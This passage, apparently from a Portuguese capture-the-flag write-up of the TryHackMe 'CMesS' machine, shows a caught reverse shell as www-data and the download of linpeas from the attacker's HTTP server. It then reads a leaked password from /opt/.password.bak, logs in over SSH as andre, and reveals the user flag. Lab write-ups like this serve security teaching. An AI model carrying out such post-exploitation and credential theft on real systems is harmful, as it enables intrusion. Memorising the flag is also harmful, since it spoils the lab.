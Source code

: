 Após inserir este input na página web, em nossa máquina já temos acesso ao **reverse shell**:

```
Connection from 10.10.215.52:49564  
/bin/sh: 0: can't access tty; job control turned off  
$ pwd     
/var/www/html  
$ whoami  
www-data  
$
```

Subi o https://github.com/carlospolop/PEASS-ng em um servidor **HTTP**, baixei o **linpeas.sh** e concedi permissão de execução com "**chmod +x linpeas.sh**".

Ao executar o arquivo, temos uma saída com inúmeras informações, porém, vamos dar ênfase a dois achados:
 - **/tmp/andre_backup.tar.gz**
 - **/opt/.password.bak**

```
╔══════════╣ Backup files (limited 100)  
-rw-r--r-- 1 root root 161 Jun  1 06:38 /tmp/andre_backup.tar.gz
[...]
-rwxrwxrwx 1 root root 36 Feb  6  2020 /opt/.password.bak
[...]
```

Senha do usuário andre:

```
$ cat /opt/.password.bak  
andres backup password  
UQfsdCB7aAP6
```

Conectando via **ssh**:

```
ssh andre@cmess.thm  
andre@cmess.thm's password:    
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)  
  
* Documentation:  https://help.ubuntu.com  
* Management:     https://landscape.canonical.com  
* Support:        https://ubuntu.com/advantage  
Last login: Thu Feb 13 15:02:43 2020 from 10.0.0.20  
andre@cmess:~$ ls  
backup  user.txt
```

Nossa **primeira flag** se encontra dentro do arquivo **user.txt**:

```
andre@cmess:~$ cat user.txt    
thm{c529b5d5d6ab6b430b7eb1903b2b5e1b}
```
